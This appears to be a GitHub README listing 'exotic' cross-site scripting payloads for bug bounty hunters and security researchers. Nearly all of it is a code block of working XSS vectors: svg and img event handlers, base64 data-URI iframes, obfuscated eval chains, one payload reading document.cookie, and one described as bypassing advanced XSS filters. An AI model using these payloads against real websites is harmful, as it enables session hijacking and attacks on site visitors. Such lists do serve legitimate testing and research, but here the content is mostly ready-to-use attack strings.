 # Awesome XSS Payloads and Vectors
Exotic and uncommon XSS Vectors to hit the target as quickly as possible.
THIS IS SPECIALLY FOR BUG BOUNTY HUNTERS AND SECURITY RESEARCHERS.

I REQUEST TO CONTRIBUTE TO THE PROJECT BY INCLUDING ONLY HIGHLY EXOTIC XSS VECTORS.


```
“><svg/onload=alert(document.domain)>”@x.y

<svg onload="alert(1)" <="" svg=""

„> <img src = x onerror = javascript: alert (1); …

onerror%3Deval%3Bthrow'%3Dalert%5Cx281%5Cx29'%3B

<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

&#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>
  '
<--`<img/src=` onerror=alert(1)> --!>
  
'';!--\"&lt;XSS&gt;=&{()}

¼script¾alert(¢XSS¢)¼/script¾

“><s”%2b”cript>alert(document.cookie)</script>

<iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

a=\"get\";
b=\"URL(\\"\";
c=\"javascript&#058;\";
d=\"alert('XSS');\\")\";
eval(a+b+c+d);

<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z

<svg•onload=alert(1)>

<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //># //This payload is used to fool and bypass advanced xss filters by fooling as if it is comments.
```

